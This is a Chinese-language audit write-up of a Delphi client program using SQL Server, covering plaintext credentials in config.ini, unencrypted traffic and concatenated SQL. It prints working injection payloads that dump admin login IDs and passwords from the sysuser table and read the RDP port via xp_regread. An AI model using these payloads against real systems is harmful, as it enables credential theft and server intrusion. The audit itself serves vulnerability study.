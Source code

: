 
程序的主要 function，与 procedure

**注：**Delphi把操作数据的方法分成了两种，一种是function，另一种是procedure，大致理解为“函数”和“过程”。
Procedure类似C语言中的无返回值函数，即VOID。而Function就是c语言中的有返回值函数，即没有Void。  
![](media/21e65a213b1774c59d03619cb69683b4.jpg)

程序分为2种连接数据库模式：  
![](media/080d91e0679721483224a0d29b818c61.jpg)

无论是本地模式，还是联网模式，都是读取，当前路径的config.ini配置文件：
**（导致敏感信息暴漏，可直连服务器）**

![](media/00335e7c032c10d239df4a1c64a1543e.jpg)

继续跟数据库连接：配合SQL Server数据库，直接带入，可以判断出为明文存储。  
![](media/f0281f9b417bfcff8962a51f84f410b3.jpg)

config.ini配置如下：  
![](media/7a7ab42ea759160c062a56d2c4f1cc88.jpg)

基于TCP通信，SQL Server通信构架大致如下：
**（可导致通信过程中抓取明文执行）**

![](media/109415886494f35eb1abb0dc65e1ea4a.jpg)

代入执行：
**（导致可拼接sql语句，查询任意语句或者执行命令）**

![](media/f2d2fa55ca7000f6ac4e2a7f35096223.jpg)  
![](media/9c7cde20e5b9f00367d3e9e6742795bd.jpg)

部分语句其中如下：
```sql
select distinct memberid,receivecompany 
from weigh where receivecompany is not null 
and receivecompany like ''%'+xxxxxx+'%''
```

软件呈现如下：  
![](media/fb920104b40786b665ab4f54efcc7f45.jpg)

对应收货单位编号，以及收货单位名称。分别为：`memberid`, `receivecompany`

闭合语句为：
`2' ; select loginid as memberid , password as receivecompany from sysuser --`  
![](media/3fe1f0dff1f17524e03aa152e59172b2.jpg)

抓取返回如图：
得到admin 账号以及密码。  
![](media/0832ba025e9189a7099cd2e4dc368152.jpg)

构造读取远程桌面端口号：
得到远程服务器端口号
```sql
2' ; EXEC master..xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp',
'PortNumber' --
```

copy 获取缓冲区内容：
**（导致可从服务器端构造代码）**  
![](media/12eae8dd1c87a5e9f14244f5c7b4eb70.jpg)

copy 用法如下：

> copy（a,b,c);  
>a：就是copy源，就是一个字符串，表示你将要从a里copy一些东西;  
>b：从a中的第b位开始copy（包含第11位）;  
>c：copy从第b位开始后的c个字符，  
>exp： m:=‘the test fuck'  
>      s：=copy（m,2,2）； //s值为‘he’

当超出范围，会发生异常错误。实例中，从服务器数据库获取数据后进行copy。

软件登陆部分代码如下：
**（导致可自动化跑 loginid。）**  
![](media/24734f4bbaa74f862cfbcac3b53faf83.jpg)

多次尝试错误处理如下：退出软件，并且重新开始计算。  
![](media/4ec9526c01770e2d5f17c9cc9a76b26b.jpg)



>   Micropoor
